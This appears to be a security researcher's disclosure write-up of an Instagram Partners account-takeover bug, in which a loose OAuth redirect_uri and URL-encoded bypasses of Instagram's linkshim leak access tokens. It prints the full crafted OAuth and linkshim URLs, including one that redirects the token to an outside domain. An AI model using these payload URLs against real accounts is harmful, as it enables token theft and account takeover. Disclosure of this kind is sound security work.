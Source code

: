 >Getting access token of instagram partner's account through referrer leakage using linkshim

This issue allowed me to take over the insta partners account code and access_token.

Instagram partners uses facebook for authentication. The redirect_uri for the fb oauth is `instagrampartners.com`. But a small
misconfiguration in redirect_uri helped me to take over the access_token.

Partners was allowing `instagram.com` as a domain for redirection and even subdomains `*.instagram.com`. There is no option for me 
except linkshim or oauth to bypass. linkshim clears the referrer and remaining headers before redirecting.

Redirection bypass contained url encoded elements which helped parameters from facebook to escape the linkshim of instagram. Using 
url encoding helped linkshim url with access token to leak through referrer.

Example consider this linkshim instagram url:

>http://l.instagram.com/?e=ATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw&u=http://google.com/

Linkshim bypass url :

>http://l.instagram.com/?e%3DATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw%26u%3Dhttp://google.com

Oauth bypass url : 

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&redirect_uri=http%3A%2F%2Fl.instagram.com%2F%3Fe%3DATNqsDRx0x7ZVfVF282iVvW4zr6QOhmME_M35bNw6rHrt6L30ajQ2t-YStDi6g%26u%3Dhttp%3A%2F%2Fgoogle.com%2F&scope=public_profile%2Cemail&response_type=code


Proof of concept : 

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZk4zMU9TdUFQMzg/preview" width="640" height="480"></iframe>


Code it self can't do any thing without `client_secret` and same redirect url (instagrampartners.com) is required for explict authentication from server side.
Linkshim was not allowing url fragments. When `response_type` is set to `token`, It returns in the from of fragment. So anything
after `#` is negelected by linkshim. I used oauth to bypass the restrictions by linkshim.

Oauth bypass url using oauth :

>https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&scope=public_profile%2Cemail&response_type=token&redirect_uri=https%3A%2F%2Fwww.instagram.com%2Foauth%2Fauthorize%2F%3Fclient_id%3D{REDACTED}%26response_type%3Dcode%26redirect_uri%3Dhttp%3A%2F%2Fmunchinng.com%2F%26state%3D

Proof of concept :

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZTJEdmtIc1lMUDA/preview" width="640" height="480"></iframe>


